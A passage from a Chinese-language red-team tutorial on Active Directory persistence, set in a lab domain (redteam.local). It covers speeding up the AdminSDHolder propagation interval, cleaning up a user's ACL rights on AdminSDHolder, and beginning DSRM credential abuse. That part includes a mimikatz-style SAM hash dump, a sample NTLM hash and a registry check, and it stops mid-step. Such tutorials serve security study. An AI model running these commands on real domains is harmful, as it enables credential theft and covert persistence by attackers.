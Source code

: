 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210814114539.png)![]()

默认会等待60分钟，可以通过修改注册表来设置为60秒后触发。

    
    
    reg add hklm\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v AdminSDProtectFrequency/t REG_DWORD /d 1/f

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210814114540.png)

## 3.4 恢复

恢复触发时间

    
    
    reg add hklm\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v AdminSDProtectFrequency/t REG_DWORD /d 120/f

取消jack用户对adminSDHolder的权限

    
    
    Remove-DomainObjectAcl-TargetSearchBase"LDAP://CN=AdminSDHolder,CN=System,DC=redteam,DC=local"-PrincipalIdentity jack -RightsAll-Verbose

![]()

# 0x04 DSRM凭证

每个DC内部都有一个本地管理员账户，在该机器上拥有管理员权限。

## 4.1 获取本地管理员hash

    
    
    token::elevatelsadump::sam

![]()

得到hash为：

    
    
    852a844adfce18f66009b4f14e0a98de

## 4.2 检查是否工作

如果注册表项的值为0或者不存在，需要将其设置为2。

检查key是否存在并且获取值：

    
    
    Get-ItemProperty"HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA"-name DsrmAdminLogonBehavior

如果不存在则创建值为2的键：
